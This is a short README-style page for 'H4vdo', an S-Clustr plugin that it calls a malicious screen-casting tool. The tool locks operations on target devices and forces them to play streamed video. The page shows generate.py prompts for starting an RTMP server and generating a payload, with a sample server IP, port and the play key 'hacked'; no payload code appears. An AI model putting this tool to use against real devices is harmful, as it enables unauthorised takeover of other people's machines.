 ### Overview

H4vdo is an S-Clustr plugin that allows batch control of malicious screen casting services through a shadow cluster. It locks device-side operations and plays streaming video (live streams, MP4s, desktop casting) without causing significant data loss or damage to the system.

You can download the standalone tool (non-plugin version) from the repository at https://github.com/MartinxMax/H4vdo.

## RTMP Server

`$ python3 generate.py`
`[Device Type (Number)]> 7`
`[+] [0] Start RTMP server [1] Skip> 0`

![alt text](./pic/generate_RTMP.png)

### RTMP Payload

`$ python3 generate.py`
`[Device Type (Number)] > 7`
`[+] [0] Start RTMP server [1] Skip > 1`
`[+] RTMP server IP > 192.168.8.106`
`[+] RTMP server PORT > 1935`
`[+] Play key > hacked`
`[+] What is the version of python you want to execute?([0]python [1]python3)> 0`
`[+] [0] Generate payload [1] Push RTMP stream > 0`
